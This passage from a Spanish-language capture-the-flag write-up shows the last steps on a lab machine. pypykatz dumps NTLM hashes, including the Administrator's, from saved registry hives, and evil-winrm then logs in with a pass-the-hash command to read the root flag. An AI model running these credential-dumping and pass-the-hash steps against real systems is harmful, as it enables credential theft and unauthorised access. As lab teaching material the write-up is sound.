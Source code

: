 Ahora utilizaremos la herramienta `pypykatz` (una versión de `mimikatz` pero hecha en python) para extraer los hashes utilizando las claves de los registros que obtuvimos anteriormente:

```python
pypykatz registry --sam sam.hive system.hive
```

```
============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: 3c2b033757a49110a9ee680b46e8d620
============== SAM hive secrets ==============
HBoot Key: a1c299e572ff8c643a857d3fdb3e5c7c10101010101010101010101010101010
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Por último, para loguearnos con la cuenta de `Administrator`, no es necesario crackear el hash de esta cuenta, simplemente podemos realizar un `pass the hash`, con `evil-winrm`:

```python
evil-winrm -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341' -i 10.129.231.149
```

![17](./assets/17.png)

De esta manera, podemos leer directamente la flag de root!🐇
